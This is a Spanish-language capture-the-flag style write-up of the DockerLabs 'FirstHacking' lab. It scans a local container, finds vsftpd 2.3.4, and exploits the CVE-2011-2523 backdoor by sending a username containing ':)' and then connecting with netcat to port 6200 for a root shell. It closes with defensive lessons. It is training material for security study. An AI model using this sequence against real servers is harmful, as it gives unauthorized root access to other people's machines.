


# DockerLabs: FirstHacking - Writeup (Muy Fácil)

Documentacion técnica y acádemica sobre el analisis del entorno de prueba **FirstHHacking** de la plataforma DockerLabs.

El objetivo de este es estudiar la enumeración de servicios y comprender el funcionamiento de vulnerabilidades conocidas en protocolos de red.




## 🗺️ Resumen General

* **Entorno:** DockerLabs
* **Máquina:** FirstHacking
* **Dificultad:** Muy Fácil
* **Conceptos clave:** Enumeración FTP, Banner Grabbing, CVE-2011-2523, Análisis de Procesos


<br></br>

## Paso 00: Comenzando

* Descargar la VM de DockerLabs - FirstHacking
* Descomprimir la VM desde la terminal de Kali

```
unzip firsthacking.zip
```

* Archivo descomprimido
````
auto_deploy.sh
````

* Pasar a Super_Usuario

````
sudo su
````

* Correr la VM

````
sudo ./auto_deploy.sh firsthacking.tar
````



<br></br>

## 🔍 Paso 01: Reconocimiento y Enumeración

### Escaneo de Puertos (Nmap)

````
sudo nmap -p- --open -sS -sC -sV -min-rate 500 -n -Pn 172.17.0.2 -oG nmap_inicial.txt
````

### Resultado

````
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-21 11:49 -0400
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 82:42:24:11:33:8F (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.64 seconds   
````

### Hallazgo

* Puerto 21/TCP: Servicio FTP activo (vsFTPd 2.3.4)


<br></br>

## Paso 02: Análisis Teórico de la Vulnerabilidad

### Identificador: CVE-2011-2523

La version identificada corresponde a un incidente histórico en la cadena de suministro de software (2011), donde el código fuente original fue sustituido temporalmente por un paquete modificado que contenía una puerta trasera (backdoor)

* Mecanismo: La presencia de la secuencia **:)** en el campo de usuario durante la negociación del inicio de sesión desencadenada la ejecución de un proceso secundario a la escucha en el puerto TCP 6200


### Bueno vamos con una Comprobacion de Acceso Anonimo

````
ftp 172.17.0.2
````

### Resultado

````
Connected to 172.17.0.2.
220 (vsFTPd 2.3.4)
Name (172.17.0.2:kali): user:)
331 Please specify the password.
Password: 
````


<br></br>

## Paso 03: Verificación de Conectividad e Interacción

Ya con el paso anterior, se procede a abrir una nueva terminal y ejecutar:

````
nc -nv 172.17.0.2 6200
````

Al interactuar con el servicio e iniciar la conexión en el puerto 6200, se obtiene una shell interactiva con acceso total (root)

Lo cual se puede evidenciar a continuación

````
nc -nv 172.17.0.2 6200

(UNKNOWN) [172.17.0.2] 6200 (?) open
````

Luego ejecutamos whoami para evidenciar el acceso que tenemos, ademas podemos escribir el comando de id

````
whoami
root
````

````
id
uid=0(root) gid=0(root) groups=0(root)
````


<br></br>

## 🏁 Conclusiones del Aprendizaje

Para prevenir este tipo de fallos en entornos de producción:

1. Verificacion de Integridad: Validar siempre las sumas de verificación SHA-256 y firmas PGP de los paquetes descargados antes de su despliegue

2. Principio de Mínimo Privilegio: Configurar los servicioss de red para que se ejecuten bajo usuarios no privilegiados y no directamente como **root**

3. Segmentación de Red y Firewalling: Implementar reglas de firewall estrictas que bloqueen por defecto cualquier puerto no autorizado explicitamente.


